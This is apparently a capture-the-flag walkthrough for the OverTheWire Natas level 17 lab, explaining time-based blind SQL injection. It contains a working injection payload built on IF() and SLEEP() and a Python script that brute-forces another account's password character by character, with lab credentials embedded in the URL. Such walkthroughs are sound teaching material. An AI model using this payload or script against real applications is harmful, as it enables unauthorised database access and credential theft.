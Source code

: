 Well, look at that! It's the same a.... oh, wait a second... they commented out the echo responses, darn.

Okay, that's fine! At least we still know that there is a __username__ and __password__ field in the database, and that the query is susceptible to SQL Injection.

This is something called a __Total Blind SQL Inject__, where we do not have any generic errors or statements that will provide us with some sort of acknowledgment that the query we are injecting is __true__ or __false__.

We will be doing something called a [Time-Based Blind SQL Inject](http://www.sqlinjection.net/time-based/), where we will be judging our __true__ and __false__ statements based on the server delay - caused by our query.

Let's try and inject the following query: 

__natas18" AND IF(password LIKE BINARY "A%", sleep(5), null) #__

You should see that it takes the server about __5 seconds__ to respond back. This is due to the fact that we are using the MySQL [Sleep() Command](http://dev.mysql.com/doc/refman/5.7/en/miscellaneous-functions.html#function_sleep). This also means that the letter "__A__" exists in the password field for natas18 - so our query is __true__. But, if the server responded right away, then we would know that the letter does not exist, thus the query is __false__.

The way we are testing for __true__ and __false__ is by using the [If() Command](http://dev.mysql.com/doc/refman/5.7/en/control-flow-functions.html#function_if). We are basically telling SQL that __IF__ the __password__ for natas18 __includes__ the character __A__, __THEN__ you must __SLEEP for 5 Seconds__, __ELSE IF FALSE__ do __NULL__ or nothing.

So let's go ahead and edit our previous __brute.py__ script to work with this level. 

Notice that I am using __%23__ for the __#__ sign, since we need it in our URL, and the URL is encoded. You can read more about [encoding here](http://www.w3schools.com/tags/ref_urlencode.asp)!

```python
#!/usr/bin/python

import requests

chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
exist = ''
password = ''
target = 'http://natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw@natas17.natas.labs.overthewire.org/'

r = requests.get(target)

for x in chars:
	try:
		r = requests.get(target+'?username=natas18" AND IF(password LIKE BINARY "%' + x + '%", sleep(5), null) %23', timeout=1)
	except requests.exceptions.Timeout:
		exist += x
		print 'Using: ' + exist

print 'All characters used. Starting brute force... Grab a coffee, might take a while!'

for i in range(32):
	for c in exist:
		try:
			r = requests.get(target+'?username=natas18" AND IF(password LIKE BINARY "' + password + c + '%", sleep(5), null) %23', timeout=1)
		except requests.exceptions.Timeout:
			password += c
			print 'Password: ' + password + '*' * int(32 - len(password))
			break

print 'Completed!'
```
